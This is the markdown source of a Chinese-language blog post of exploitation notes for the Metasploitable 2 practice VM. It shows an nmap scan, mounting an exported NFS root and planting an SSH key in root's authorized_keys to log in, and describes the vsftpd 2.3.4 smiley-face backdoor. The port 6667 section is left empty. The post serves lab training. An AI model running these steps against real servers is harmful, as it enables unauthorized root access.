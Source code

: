 ```yaml
---
layout: post
title: Metasploitable2-Exploitability-Guide
date: 2017-10-16
tags: 安全靶场通关  
---
```






![rapid7][1]

<br>

###  内容：metasploitable 2 利用笔记    

暂时不包括对web应用和服务的利用  

环境搭建: VMware 虚拟机[下载地址](https://information.rapid7.com/metasploitable-download.html)  注册信息随便写，或者[直接下载](https://metasploit.help.rapid7.com/docs/metasploitable-2).    

metasploitable 2 用户名密码`msfadmin`/`msfadmin`.登陆后查看地址`ifconfig`.    

  ![ifconfig][2]   


<br>

<p style="color: #FF2D2D">
<strong>打开kali用nmap扫描该地址开启的端口和服务以及服务版本:`nmap -p1-65535 -sV 192.168.227.128`</strong></p>      

  ![nmap][3]  

得到很多开启的服务及端口信息,这正是我们需要的.    

---    

### PORT: 2049 NFS(Network File System) 网络文件系统    

  使用`rpcinfo`判断`NFS`服务是否开启，再用`showmount -e` 判断`linux`系统根目录是否被共享和可以挂载.  

    # rpcinfo -p 192.168.227.128
    # showmount -e 192.168.227.128


![NFS][4]  

  通过挂载远程服务器的根目录，再写入文件。这里选择写入ssh公钥用ssh私钥直接进行登录。  

创建公私钥   

    # ssh-keygen -t rsa    

![ssh-keygen][5]  

挂载共享目录到本地，再将公钥重命名写到指定目录，用私钥登录   

    # mount -t nfs 192.168.227.128:/ /tmp/
    # cat id_rsa.pub >> /tmp/root/.ssh/authorized_keys
    # umount /tmp
    # ssh 192.168.227.128

![ssh][6]  

------

### PORT: 21 vsftpd-2.3.4     
  该版本包含一个后门，如果一个用户名被传入最后包含`:)`，该版本会在6200端口监听一个shell，可以用telnet或者msf测试这个漏洞    

  ![telnet][7]  

  ![msfconsole][8]  

-----

### PORT: 6667





----------



<br>

[1]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/1.png  
[2]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/2.png    
[3]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/3.png  
[4]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/4.png  
[5]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/5.png  
[6]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/6.png  
[7]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/7.png  
[8]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/8.png  
[9]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/9.png  
[10]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/10.png  
